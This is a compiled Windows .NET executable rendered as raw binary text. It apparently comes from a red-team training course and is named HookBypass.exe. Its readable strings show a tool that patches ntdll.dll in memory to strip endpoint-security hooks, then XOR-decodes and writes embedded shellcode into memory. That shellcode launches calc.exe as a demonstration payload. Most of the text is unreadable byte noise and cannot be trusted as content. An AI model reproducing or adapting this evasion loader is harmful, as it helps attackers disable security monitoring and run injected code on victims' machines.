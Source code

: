 MZ�       ��  �       @                                   �   � �	�!�L�!This program cannot be run in DOS mode.

$       PE  d� ��&�        � " 0                      @                         `          `�  @      @                                             @  �                          2  8                                                               H           .text   �                           `.rsrc   �   @                    @  @                                        H     x"  �     
                                                  0 /      (  
}   }   |   (  + |  (  
* 0 &     
+�o  
]o  
aҜX
�i2�*  0 ]     r  p(  r  p(  
j(  
@(  &�  %�  (  
(  
j(  
(  ,
r+  p(  
*   0      j
jj+X
jX7�*(  
* 0      (  o  

 (  
* 0 �        �  %�  (  

(
  (  ~   
�ij(  

    @(  ,rW  p(  
�q�ij(  
(  ,r�  p(  
�P�$  (!  
("  
t$  o#  
  �  (  ,
r�  p(  
��}  |  ($  
��}  |  (%  
*        ��   6|  (&  
*  BSJB         v4.0.30319     l   ,  #~  �  �  #Strings    L    #US `
     #GUID   p
  $  #Blob         W�6	
   �3      &                  &                                      �      *; �; +	 [   Sc 
c �c ~c Jc cc �c ?  �c �� �< �< j; j �; ; �< �; x< �; �	 �< < �< �; X< (<  m< < \< ;< �<    F          4�A      V   A    ;   Y        Y        Y   3� � 3u �  ��  ��     � � ��      � � ��      � � ��      � � s�      � � g�      � � ��      � � ��  H     � W�  �     � �  �     � �  $!    � � K!    ��  T!    �O  t!    �E  h"    ��      _   �   �   �   �      _   �   �   �  G   _   �   �   �      u   }   �   �   
  �      ^   C   � ] 	 �  �  �
 ) � 1 � 9 � A � I � Q � Y � a � i � q � y � � � � � � E � �  � � � �+ � ?0 � = � F � �J � T � NY 	bb �k � � � �{ � + �� � M� 	�� !! � u� � 5 � �  .  .  .  4. # =. + M. 3 M. ; S. C =. K [. S M. [ M. c u. k �. s �c � � �  { ���          & B O p v �   #   % *@ � @ �   � @	 s   g  
 �   � �2   �2   �               �             �           + 8    __StaticArrayInitTypeSize=5 __StaticArrayInitTypeSize=276 <Main>d__7 <Module> <Main> <PrivateImplementationDetails> 70488C62E7F56BADBDE76FB5A5D69FA6D7C1D4243F4A256106A7DE2E5B4253CA 18E800921EAC4B6EA289FFC28ABB7E2D58E7521D3568DCACD9E3AA55096F35DE PatchNTDLL data mscorlib xorDec dllToLoad Invoke RuntimeFieldHandle RuntimeTypeHandle GetTypeFromHandle processHandle Console hModule procedureName WriteLine IAsyncStateMachine SetStateMachine stateMachine freeType ValueType allocationType Create Delegate <>1__state CompilerGeneratedAttribute GuidAttribute DebuggableAttribute ComVisibleAttribute AssemblyTitleAttribute AsyncStateMachineAttribute AssemblyTrademarkAttribute TargetFrameworkAttribute DebuggerHiddenAttribute AssemblyFileVersionAttribute AssemblyConfigurationAttribute AssemblyDescriptionAttribute CompilationRelaxationsAttribute AssemblyProductAttribute AssemblyCopyrightAttribute AssemblyCompanyAttribute RuntimeCompatibilityAttribute Byte HookBypass.exe regionSize dwSize size System.Runtime.Versioning String get_Length get_Task Marshal kernel32.dll ntdll.dll Program System len numBytesWritten Main Action System.Reflection SetException calcFibo Zero ConsoleApp AsyncTaskMethodBuilder <>t__builder buffer TaskAwaiter GetAwaiter GetDelegateForFunctionPointer .ctor UIntPtr System.Diagnostics System.Runtime.InteropServices System.Runtime.CompilerServices DebuggingModes System.Threading.Tasks get_Chars RuntimeHelpers HookBypass GetCurrentProcess GetProcAddress baseAddress lpAddress zeroBits Object lpflOldProtect VirtualProtect flNewProtect protect op_Explicit GetResult SetResult Start MoveNext InitializeArray key Copy LoadLibrary NtFreeVirtualMemory NtAllocateVirtualMemory NtWriteVirtualMemory  n t d l l . d l l  N t O p e n F i l e  +[ + ]   n t d l l . d l l   p a t c h e d  ?E r r o r   a l l o c a t i n g   v i r t u a l   m e m o r y  ?E r r o r   w r i t i n g   t o   v i r t u a l   m e m o r y  9E r r o r   f r e e i n g   v i r t u a l   m e m o r y     �SG	(�@�(�܅{        E ]  e0 
  M   	  }��  Q  Q
a E�� ��E a�z\V4��e 			
   	 	   		  M            TWrapNonExceptionThrows       
HookBypass       HP   Copyright © HP 2023  ) $24ece12a-6394-49f7-8f56-244c99781004   1.0.0.0  M .NETFramework,Version=v4.7.2 TFrameworkDisplayName.NET Framework 4.7.2" ConsoleApp.Program+<Main>d__7           �0��       �   D2  D                             RSDSg>$r��A�� L���R   E:\All Notes\Security\Capstone\Red Team Ops 2\7 - EDR Evasion\HookBypass\obj\x64\Release\HookBypass.pdb �����   �H�����   AQAPRQVH1�eH�R`H�RH�R H�rPH�JJM1�H1��<a|, A��
A���RAQH�R �B<HЋ��   H��tgH�P�HD�@ I��VH��A�4�H�M1�H1��A��
A�8�u�LL$E9�u�XD�@$I�fA�HD�@I�A��H�AXAX^YZAXAYAZH�� AR��XAYZH��W���]H�       H��  A�1�o��ջ�VA�������H��(<|
���u�Groj YA����calc.exe                                                      �   P  �                  8  �                   �                     h  �                   �  �@  4          44   V S _ V E R S I O N _ I N F O     ���                 ?                         D    V a r F i l e I n f o     $    T r a n s l a t i o n       ��   S t r i n g F i l e I n f o   p   0 0 0 0 0 4 b 0      C o m m e n t s       &   C o m p a n y N a m e     H P     >   F i l e D e s c r i p t i o n     H o o k B y p a s s     0   F i l e V e r s i o n     1 . 0 . 0 . 0   >   I n t e r n a l N a m e   H o o k B y p a s s . e x e     L   L e g a l C o p y r i g h t   C o p y r i g h t   �   H P   2 0 2 3   *   L e g a l T r a d e m a r k s         F   O r i g i n a l F i l e n a m e   H o o k B y p a s s . e x e     6   P r o d u c t N a m e     H o o k B y p a s s     4   P r o d u c t V e r s i o n   1 . 0 . 0 . 0   8   A s s e m b l y   V e r s i o n   1 . 0 . 0 . 0   �C  �          ﻿<?xml version="1.0" encoding="UTF-8" standalone="yes"?>

<assembly xmlns="urn:schemas-microsoft-com:asm.v1" manifestVersion="1.0">
  <assemblyIdentity version="1.0.0.0" name="MyApplication.app"/>
  <trustInfo xmlns="urn:schemas-microsoft-com:asm.v2">
    <security>
      <requestedPrivileges xmlns="urn:schemas-microsoft-com:asm.v3">
        <requestedExecutionLevel level="asInvoker" uiAccess="false"/>
      </requestedPrivileges>
    </security>
  </trustInfo>
</assembly>                                                                  
